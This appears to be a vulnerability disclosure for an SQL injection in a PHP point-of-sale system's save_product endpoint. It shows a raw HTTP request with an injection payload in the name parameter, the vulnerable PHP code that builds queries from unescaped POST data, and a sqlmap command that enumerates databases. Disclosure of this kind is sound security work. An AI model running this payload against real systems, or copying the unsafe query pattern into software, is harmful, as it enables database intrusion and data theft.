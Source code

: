 Download sourcecode from https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html

Deploy the system

The sql injection url: http://172.31.171.96/kruxton/ajax.php?action=save_product Vulnerability trigger parameter: name(post parameter)

The http message is 

```
POST /kruxton/ajax.php?action=save_product HTTP/1.1
Host: 172.31.171.96
Content-Length: 16
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=trdjs8jl8md348msi4p8aq5tu9
Connection: close

name=1'or 1=1%2
```

sourcecode:

```php
	function save_product(){
		extract($_POST);
		$data = "";
		foreach($_POST as $k => $v){
			if(!in_array($k, array('id','status')) && !is_numeric($k)){
				if($k == 'price'){
					$v= str_replace(',', '', $v);
				}
				if(empty($data)){
					$data .= " $k='$v' ";
				}else{
					$data .= ", $k='$v' ";
				}
			}
		}
		if(isset($status)){
					$data .= ", status=1 ";
		}else{
					$data .= ", status=0 ";
		}
		$check = $this->db->query("SELECT * FROM products where name ='$name' ".(!empty($id) ? " and id != {$id} " : ''))->num_rows;
		if($check > 0){
			return 2;
			exit;
		}
		if(empty($id)){
			$save = $this->db->query("INSERT INTO products set $data");
		}else{
			$save = $this->db->query("UPDATE products set $data where id = $id");
		}

		if($save)
			return 1;
	}
```

![image-20230311170341007](D:\网安学习\tryCVE\kruxton-3.assets\image-20230311170341007.png)

sqlmap command: 

```
sqlmap -u http://172.31.171.96/kruxton/ajax.php?action=save_product --data "name=1"  -pname --batch --dbs
```

inject result: 

![image-20230311170434640](D:\网安学习\tryCVE\kruxton-3.assets\image-20230311170434640.png)